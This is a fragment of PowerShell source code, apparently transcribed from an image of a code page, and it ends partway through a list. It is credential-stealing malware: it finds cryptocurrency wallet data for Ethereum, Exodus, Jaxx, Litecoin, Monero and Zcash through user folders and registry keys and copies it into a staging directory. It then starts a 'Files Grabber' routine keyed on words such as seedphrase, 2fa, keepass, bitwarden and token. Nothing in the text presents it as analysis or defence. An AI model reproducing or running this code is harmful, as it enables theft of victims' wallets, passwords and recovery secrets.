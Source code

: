     New-Item -Path "$crypto\Ethereum" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Roaming\Ethereum\keystore" -Recurse | Copy-Item -Destination "$crypto\Ethereum" -Recurse -Force
    }
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\Exodus") {
    New-Item -Path "$crypto\exodus.wallet" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Roaming\exodus.wallet" -Recurse | Copy-Item -Destination "$crypto\exodus.wallet" -Recurse -Force
    }
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\com.liberty.jaxx") {
    New-Item -Path "$crypto\liberty.jaxx" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Roaming\com.liberty.jaxx\IndexedDB\file__0.indexeddb.leveldb" -Recurse | Copy-Item -Destination "$crypto\liberty.jaxx" -Recurse -Force
    }
    If (Test-Path -Path "Registry::HKEY_CURRENT_USER\software\Litecoin") {
    New-Item -Path "$crypto\Litecoin" -ItemType Directory | Out-Null
    Get-ChildItem (Get-ItemProperty -Path "Registry::HKEY_CURRENT_USER\software\Litecoin\Litecoin-Qt" -Name strDataDir).strDataDir -Include *wallet.dat -Recurse | Copy-Item -Destination "$crypto\Litecoin" -Recurse -Force
    }
    If (Test-Path -Path "Registry::HKEY_CURRENT_USER\software\monero-project") {
    New-Item -Path "$crypto\Monero" -ItemType Directory | Out-Null
    Get-ChildItem (Get-ItemProperty -Path "Registry::HKEY_CURRENT_USER\software\monero-project\monero-core" -Name wallet_path).wallet_path -Recurse | Copy-Item -Destination "$crypto\Monero" -Recurse  -Force
    }
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\Zcash") {
    New-Item -Path "$crypto\Zcash" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Roaming\Zcash" -Recurse | Copy-Item -Destination "$crypto\Zcash" -Recurse -Force
    }

    #Files Grabber
    
	New-Item -Path "$env:localappdata\Temp" -Name "Files Grabber" -ItemType Directory -force | out-null
	$filegrabber = "$env:localappdata\Temp\Files Grabber"
	Function GrabFiles {
    $grabber = @(
    "account",
    "login",
    "metamask",
    "crypto",
    "code",
    "coinbase",
    "exodus",
    "backupcode",
    "token",
    "seedphrase",
    "private",
    "pw",
    "lastpass",
    "keepassx",
    "keepass",
    "keepassxc",
    "nordpass",
    "syncthing",
    "dashlane",
    "bitwarden",
    "memo",
    "keys",
    "secret",
    "recovery",
    "2fa",
    "pass",